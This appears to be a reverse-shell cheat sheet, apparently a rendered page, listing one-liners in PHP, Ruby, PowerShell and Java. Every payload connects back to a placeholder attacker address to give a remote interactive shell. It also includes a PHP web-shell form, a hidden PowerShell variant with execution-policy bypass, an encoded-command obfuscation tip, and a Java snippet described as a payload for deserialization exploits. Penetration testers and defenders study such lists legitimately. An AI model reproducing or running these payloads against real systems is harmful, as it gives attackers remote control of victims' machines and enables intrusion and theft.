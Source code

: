 ## PHP

```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<ATTACKER_PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**For use in a PHP web shell context (e.g., with `system`, `exec`, `passthru`):**
```php
<?php system('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1"'); ?>
```

**PHP One-liner (Embeds a bash reverse shell command within PHP code):**
```php
<?php system("bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1'"); ?>
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("<ATTACKER_IP>",<ATTACKER_PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## PowerShell (Windows)

**Standard PowerShell Reverse Shell:**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ATTACKER_IP>",<ATTACKER_PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**PowerShell encoded command (for obfuscation):**
```powershell
powershell -Enc <Base64_Encoded_Payload>
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
*(This is a snippet, not a complete Java program. It would be used within a larger Java application context, often in an exploit payload for deserialization vulnerabilities like the one in the Keras model).*

## Lua

